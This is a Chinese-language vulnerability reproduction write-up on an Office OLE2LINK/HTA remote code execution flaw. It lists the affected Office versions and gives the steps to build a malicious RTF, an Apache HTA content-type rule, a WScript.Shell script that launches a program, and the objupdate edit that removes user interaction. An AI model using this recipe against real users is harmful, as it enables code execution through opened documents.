 ### 漏洞简介

在无需用户交互的情况下，打开word文档就可以通过hta脚本执行任意代码。经过研究发现，此漏洞的成因主要是word在处理内嵌OLE2LINK对象时，通过网络更新对象时没有正确处理的Content-Type所导致的一个逻辑漏洞。

### 影响版本

Microsoft Office 2016

Microsoft Office 2013

Microsoft Office 2010

Microsoft Office 2007

### 漏洞复现

首先，创建一个正常的word文档，作为将要链接的rtf对象，命名为test.docx。

然后，将test.docx重命名为test.rtf后放到Apache服务器上面，并创建另一个文档，选择插入->对象->由文件创建，输入rtf文件路径后选择链接到文件。然后将该文件另存为rtf文件，名字为exp.rtf
![](https://github.com/cckuailong/PocCollect/blob/master/System/Win/CVE-2017-0199/img/1.png)

这时，我们在服务器端修改test.rtf文件为Visual Script Script代码需要注意反斜杠的转义，这段代码将弹出本地计算器。
```
<script>
a=new ActiveXObject("WScript.Shell");
a.run('%windir\\System32\\cmd.exe /c calc.exe',0);window.close();
</script>%
```

需要改一下Apache的配置，该代码会将该目录下的文件识别为hta脚本，然后重启服务器。
```
<Directory /var/www/html/test/>
    Header set Content-Type "application/hta"
</Dirctory>
```

点击“是”即可弹出计算器，此时用010Editor打开该文档，将\object\objautlink\rsltpict替换为\object\objautlink\objupdate\rsltpict，虽然仍然会有提示，但不需与用户交互，计算器便会自行弹出。

### 漏洞修复

安装最新补丁
